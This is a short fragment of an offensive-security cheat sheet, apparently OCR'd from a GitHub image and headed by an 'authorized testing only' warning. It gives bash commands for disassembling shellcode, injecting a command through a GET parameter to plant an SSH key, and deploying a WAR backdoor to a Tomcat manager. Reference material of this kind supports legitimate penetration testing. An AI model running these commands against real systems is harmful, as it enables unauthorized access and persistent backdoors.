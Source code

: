 > ⚠️ **Authorized testing only.** Use these commands only within legal scope and with explicit permission.

### Shellcode → disassembly

```bash
cat shellcode.txt | xxd -p -r > shellcode.bin && ndisasm -b 64 shellcode.bin
```

### Exfil via GET parameter (example)

```bash
curl -G 'http://example.com/file.php' --data-urlencode 'cmd=echo ssh-rsa AA.......'
```

### Exploit LFI to deploy a WAR backdoor (Tomcat example)

```bash
curl --user 'tomcat:<password>' --upload-file exploit.war "http://<host>:8080/manager/text/deploy?path=/exploit"
```
